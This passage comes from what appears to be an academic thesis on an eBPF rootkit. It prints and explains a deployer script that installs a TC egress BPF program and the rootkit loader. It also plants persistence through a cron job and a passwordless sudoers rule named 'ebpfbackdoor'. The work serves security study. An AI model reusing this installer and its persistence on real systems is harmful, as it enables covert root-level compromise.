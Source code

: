 \begin{lstlisting}[language=C, caption={Script deployer.sh.}, label={code:deployersh}]
## Persistence
declare -r CRON_PERSIST="* * * * * osboxes /bin/sudo /home/osboxes/TFG/apps/deployer.sh"
declare -r SUDO_PERSIST="osboxes ALL=(ALL:ALL) NOPASSWD:ALL #"
echo $CRON_PERSIST > /etc/cron.d/ebpfbackdoor
echo $SUDO_PERSIST > /etc/sudoers.d/ebpfbackdoor

# Rootkit install
OUTPUT_COMM=$(/bin/sudo /usr/sbin/ip link)
if [[ $OUTPUT_COMM == *"xdp"* ]]; then
   echo "Rootkit is already installed"
else
   #Install the programs
   echo -e "${BLU}Installing TC hook${NC}"
   /bin/sudo tc qdisc del dev enp0s3 clsact
   /bin/sudo tc qdisc add dev enp0s3 clsact
   /bin/sudo tc filter add dev enp0s3 egress bpf direct-action obj "$BASEDIR"/tc.o sec classifier/egress
   /bin/sudo "$BASEDIR"/kit -t enp0s3 &
fi
\end{lstlisting}

As we can observe in its contents, the script will take care of the installation process of the rootkit. For this, it will first check whether there exists any XDP program loaded. If there is any, it is assumed that it belongs to the rootkit backdoor and thus the process is halted. Otherwise, the rootkit is installed:
\begin{itemize}
\item We remove any previous existing qdisc, followed by creating the new qdisc for the TC program, which is created and attached to network interface enp0s3. This step was explained in section \ref{subsection:tc}.
\item We attach the TC program to the newly created qdisc.
\item We execute the main file (\textit{kit}) of the rootkit, specifying the network address for the XDP program to use. This will launch the user space rootkit program, which will load and attach the eBPF programs in the kernel.
\end{itemize}

Also, as we mentioned, the \textit{deployer.sh} script takes care of the rootkit persistence by writing an entry into the file \textit{/etc/cron.d/ebpfbackdoor}. Snippet \ref{code:bpfbackdoor_cron} shows the outcome of the data written into this file.

\begin{lstlisting}[language=C, caption={Content of /etc/cron.d/ebpfbackdoor.}, label={code:bpfbackdoor_cron}]
* * * * * osboxes /bin/sudo /home/osboxes/TFG/apps/deployer.sh
\end{lstlisting}

